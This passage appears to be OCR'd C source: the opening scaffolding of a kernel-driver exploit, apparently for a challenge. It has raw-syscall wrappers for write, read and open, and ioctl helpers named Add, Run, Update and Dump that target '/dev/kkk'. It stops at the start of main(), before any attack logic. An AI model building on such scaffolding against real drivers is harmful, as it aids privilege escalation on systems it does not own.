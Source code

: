 ```c

static inline ssize_t __asm_my_write(unsigned long fd, unsigned long buf, unsigned long size)
{
    ssize_t ret;
    asm volatile(
        "syscall"
        : "=a"(ret)
        : "0"(__NR_write), "D"(fd), "S"(buf), "d"(size)
        : "rcx", "r11", "memory");
    return ret;
}

static inline ssize_t __asm_my_read(unsigned long fd, unsigned long buf, unsigned long size)
{
    ssize_t ret;
    asm volatile(
        "syscall"
        : "=a"(ret)
        : "0"(__NR_read), "D"(fd), "S"(buf), "d"(size)
        : "rcx", "r11", "memory");
    return ret;
}

static inline ssize_t __asm_my_open(unsigned long buf, unsigned long mode)
{
    ssize_t ret;
    asm volatile(
        "syscall"
        : "=a"(ret)
        : "0"(__NR_open), "D"(buf), "S"(mode)
        : "rcx", "r11", "memory");
    return ret;
}

static inline void Add(int fd, struct AddParam* p)
{
    __asm_my_ioctl(fd, 0x6B64, p);
}

static inline void Run(int fd, struct OtherParam* p)
{    
    __asm_my_ioctl(fd, 0x6B6B, p);
}

static inline void Update(int fd, struct OtherParam* p)
{
    __asm_my_ioctl(fd, 0x6B67, p);
}

static inline void Dump(int fd, struct OtherParam* p)
{
    __asm_my_ioctl(fd, 0x6B69, p);    
}

static __inline my_memset(char *dst, char c, int len){
    while(len--)
        *dst++ = c;
}

void main()
{
    char path[0x10] = "/dev/kkk";
    char buf[0x100];
```
